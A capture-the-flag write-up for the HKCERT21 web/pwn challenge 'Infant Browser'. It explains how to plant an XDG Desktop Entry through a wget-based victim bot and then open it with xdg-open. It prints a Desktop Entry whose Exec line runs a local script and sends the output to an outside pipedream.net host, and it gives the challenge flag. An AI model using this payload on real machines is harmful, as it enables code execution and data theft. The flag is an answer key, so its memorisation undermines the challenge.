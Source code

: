 Infant Browser
===

## Summary

* **Author:** Ozetta
* **Category:** Web, Pwn, ★☆☆☆☆

## Description

Web: {CHAL_URL_LINK}

Attachment: {ATTACHMENT_LINK}

What if someone uses wget as the browser?
Flag: find the flag in the root directory with name `/proof*.sh`

---

* The objective of this kind of challenges is to send a malicious webpage / URI to steal sensitive information or even execute arbitrary code in the victim's machine. Unlike XSS where the impact is limited to the victim's account in a particular website, a browser / desktop app exploit, or client-side attack in general, may compromise the entire victim's machine.

* In this challenge, we are allowed to send the victim an arbitrary URI and they will open it with `xdg-open` (just like clicking on links in a browser). To trick a victim to execute arbitrary code, we can craft an XDG Desktop Entry, which could specify what command to be executed.

* But before we can trick the victim to open the Desktop Entry, we need to write the Desktop Entry to somewhere in the local filesystem. This could be done since the victim is using `wget` as the browser, and the current working directory is writable. 

* For example, you can upload a Desktop Entry file named `example.desktop` to your website (e.g. Github page), and then ask the victim bot to download it 
```
[Desktop Entry]
Exec=sh -c "wget https://xxxxxxxxxxxxxxx.m.pipedream.net/?`/proof*.sh`"
Type=Application
```
 * If this Desktop Entry is opened, then it will execute the command after `Exec=`, which will first execute `/proof*.sh` and obtain the output, and execute `wget https://xxxxxxxxxxxxxxx.m.pipedream.net/?(the output from executing /proof*.sh)`, which allows you to capture the flag

* Once the `example.desktop` file is written, you can ask the victim bot to open `file:///tmp/example.desktop` so that they will execute the code you planted before
  * But make sure you use a unique filename for the Desktop Entry file since the challenge platform is common to every participants

* Too easy for you? Now you can try babyURIi...


## Flag

`hkcert21{Infant_Browser_flag_153283eeddd3002f}`
